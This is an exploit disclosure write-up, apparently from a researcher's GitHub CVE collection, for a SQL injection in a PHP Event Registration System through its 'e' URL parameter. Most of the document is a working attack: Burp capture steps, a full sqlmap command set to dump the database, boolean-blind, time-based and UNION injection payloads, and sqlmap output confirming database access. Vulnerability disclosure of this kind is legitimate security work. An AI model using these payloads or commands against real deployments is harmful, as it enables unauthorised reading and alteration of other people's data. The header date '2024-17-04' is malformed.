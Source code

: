 # Event Registration System - SQL Injection - 3
+ **Exploit Title:** Event Registration System - SQL Injection - 3
+ **Date:** 2024-17-04
+ **Exploit Author:** Burak Sevben
+ **Vendor Homepage:** https://www.sourcecodester.com/php/14884/event-registration-system-qr-code-php-free-source-code.html
+ **Software Link:** https://www.sourcecodester.com/download-code?nid=14884&title=Event+Registration+System+with+QR+Code+in+PHP+Free+Source+Code
+ **Version:** Latest
+ **Tested on:** Kali Linux + PHP 8.2.12, Apache 2.4.58
+ **CVE:** Reported, waiting for CVE number.

## Description:
Event Registration System allows SQL Injection via the 'e' parameter at "http://localhost/event/registrar/?page=registration&e=c4ca4238a0b923820dcc509a6f75849b". 
Exploiting this issue could allow an attacker to compromise the application, access or modify data, or exploit the latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to this address: "http://localhost/event/registrar/"
+ Click a random event
+ Capture the request via Burp Suite and send it to the Repeater.
+ Copy the request and paste it into an "r.txt" file.
+ Captured Burp request:

```
GET /event/registrar/?page=registration&e=c4ca4238a0b923820dcc509a6f75849b HTTP/1.1
Host: localhost
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36

```

+ Use sqlmap to exploit. In sqlmap, use 'e' parameter to dump the database.
```
sqlmap -r r.txt -p e --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db
```
```
Parameter: e (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: page=registration&e=c4ca4238a0b923820dcc509a6f75849b' AND 5080=5080-- YzSR

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: page=registration&e=c4ca4238a0b923820dcc509a6f75849b' AND (SELECT 2736 FROM (SELECT(SLEEP(5)))hmeO)-- dtyk

    Type: UNION query
    Title: Generic UNION query (NULL) - 11 columns
    Payload: page=registration&e=-4565' UNION ALL SELECT NULL,NULL,NULL,CONCAT(0x7170766a71,0x774b754656496946706f737958487478466d45517941654e6145737672546d486b5050466a4d7845,0x716a7a7671),NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -
---
[18:23:14] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.58, PHP 8.2.12
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[18:23:14] [INFO] fetching current database
current database: 'event_db'
```
+ current database: `event_db`

![Ekran görüntüsü 2024-05-18 222759](https://github.com/BurakSevben/CVEs/assets/117217689/943c3ab1-a010-4caf-86a4-71af5deaec4b)



